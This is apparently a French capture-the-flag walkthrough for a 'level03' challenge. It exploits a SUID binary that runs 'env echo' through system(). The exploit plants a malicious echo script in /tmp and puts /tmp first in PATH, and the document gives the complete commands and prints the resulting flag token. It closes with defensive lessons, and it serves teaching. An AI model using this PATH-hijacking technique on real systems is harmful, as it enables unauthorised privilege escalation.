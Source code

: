 # Niveau 03 - Exploitation par Détournement de PATH

## Aperçu du défi
Le niveau 03 présente un exécutable binaire avec les permissions SUID (Set User ID) qui s'exécute avec les privilèges de `flag03`. Notre objectif est d'exploiter ce binaire pour exécuter `getflag` avec des permissions élevées.

## Analyse du binaire

### Permissions du fichier
```
-rwsr-sr-x 1 flag03 level03 8627 Mar 5 2016 level03
```

Observations clés :
- Le `s` dans les permissions du propriétaire indique que le bit SUID est activé.
- Le binaire s'exécute avec les privilèges de `flag03` lorsqu'il est exécuté.
- Il appartient à `flag03` mais est exécutable par les utilisateurs de level03.

### Analyse du contenu du binaire
Pour analyser le binaire, nous pouvons utiliser la commande `strings` pour extraire les chaînes de caractères lisibles par l'homme du binaire :
```bash
strings level03 > level03.txt
```
En regardant le binaire, nous pouvons identifier :
- Un appel à la fonction `system()`.
- Des références à `setresgid` et `setresuid` (fonctions de gestion des privilèges).
- Une chaîne critique : `/usr/bin/env echo Exploit me`.

## Explication de la vulnérabilité
Le binaire exécute une commande en utilisant `system()` qui utilise `env` pour localiser et exécuter la commande `echo`. Lorsque `env` est appelé, il recherche les commandes dans les répertoires listés dans la variable d'environnement `PATH`.

La vulnérabilité réside dans le fait que nous pouvons manipuler la variable `PATH` pour faire exécuter au programme notre propre version de `echo` au lieu de la version du système.

## La variable d'environnement PATH
`PATH` est une liste de répertoires séparés par des deux-points que le système parcourt lors de l'exécution de commandes. Par exemple :
```
PATH=/usr/local/bin:/usr/bin:/bin
```

Lorsque nous utilisons `export PATH=/tmp:$PATH`, nous :
1. Ajoutons `/tmp` au début du `PATH` existant.
2. Rendons ce `PATH` modifié disponible aux processus enfants.
3. Assurons que le système cherche d'abord dans `/tmp` lors de la recherche d'exécutables.

## Étapes d'exploitation

### 1. Créer un script `echo` malveillant
```bash
echo '#!/bin/sh' > /tmp/echo
echo 'getflag' >> /tmp/echo
chmod +x /tmp/echo
```

Ce script exécutera `getflag` avec les privilèges de `flag03` lorsqu'il sera appelé.

### 2. Modifier le PATH pour prioriser notre script
```bash
export PATH=/tmp:$PATH
```

Cela fait chercher le système d'abord dans `/tmp` lors de la recherche d'exécutables.

### 3. Exécuter le programme vulnérable
```bash
./level03
```

### 4. Résultat
Lorsqu'il est exécuté, le binaire va :
1. S'exécuter avec les privilèges de `flag03` grâce au SUID.
2. Tenter d'exécuter `/usr/bin/env echo Exploit me`.
3. `env` cherchera `echo` dans le `PATH`.
4. Trouver et exécuter notre script `echo` malveillant dans `/tmp`.
5. Notre script exécutera `getflag` avec les privilèges de `flag03`.
6. Le drapeau pour le niveau suivant sera affiché.

## Leçons de sécurité
1. **Détournement de PATH (Path Hijacking)** : Toujours utiliser des chemins absolus dans les programmes privilégiés.
2. **Binaires SUID** : Être extrêmement prudent avec les exécutables SUID qui appellent d'autres programmes sans spécifier les chemins complets.
3. **Variables d'environnement** : Se rappeler que les variables d'environnement comme `PATH` peuvent être manipulées par les utilisateurs.

## Solution complète
```bash
# Créer le script echo malveillant
echo '#!/bin/sh' > /tmp/echo
echo 'getflag' >> /tmp/echo
chmod +x /tmp/echo

# Modifier le PATH
export PATH=/tmp:$PATH

# Exécuter le programme vulnérable
./level03

# Sortie attendue : Check flag.Here is your token: qi0maab88jeaj46qoumi7maus
```

Cette technique d'attaque est connue sous le nom de "détournement de PATH" (PATH hijacking) et est une méthode courante d'escalade de privilèges dans les environnements Unix/Linux.
